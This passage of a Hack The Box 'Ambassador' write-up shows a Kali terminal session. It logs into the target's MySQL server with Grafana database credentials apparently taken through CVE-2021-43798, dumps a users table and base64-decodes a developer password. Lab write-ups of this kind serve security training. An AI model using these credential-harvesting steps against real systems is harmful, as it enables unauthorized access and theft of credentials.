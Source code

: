 ```
┌──(darshan㉿kali)-[~/…/Linux-Boxes/Ambassador/exploit-grafana-CVE-2021-43798/http_10_10_11_183_3000]
└─$ mysql -u grafana -p'dontStandSoCloseToMe63221!' -h 10.10.11.183 -P 3306
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 46
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.206 sec)

MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.197 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.196 sec)
```

I decoded the password.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Linux-Boxes/Ambassador]
└─$ echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
anEnglishManInNewYork027468
```
